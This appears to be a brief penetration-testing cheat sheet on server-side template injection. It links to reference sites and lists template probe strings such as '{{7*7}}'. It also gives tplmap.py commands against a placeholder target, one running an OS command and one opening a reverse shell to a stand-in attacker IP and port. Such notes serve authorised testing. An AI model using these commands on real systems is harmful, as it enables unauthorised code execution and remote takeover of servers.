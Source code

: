 #ssti

## Resources
- [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) 
- [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection)

## Manual
```
{{7*7}}
```

```
${7*7}
```

```
<%= 7*7 %>
```

```
${{7*7}}
```

```
#{7*7}
```


![[ssti-identificaiton-hacktricks.png]]


## Tool - tplmap.py
```
tplmap.py -u http://[TARGET_IP]/ -d 'myParam'
tplmap.py -u http://[TARGET_IP]/ -d 'myParam' --os-cmd "id"
tplmap.py -u http://[TARGET_IP]/ -d 'myParam' --reverse-shell [ATTACKER_IP] [ATTACKER_PORT]
```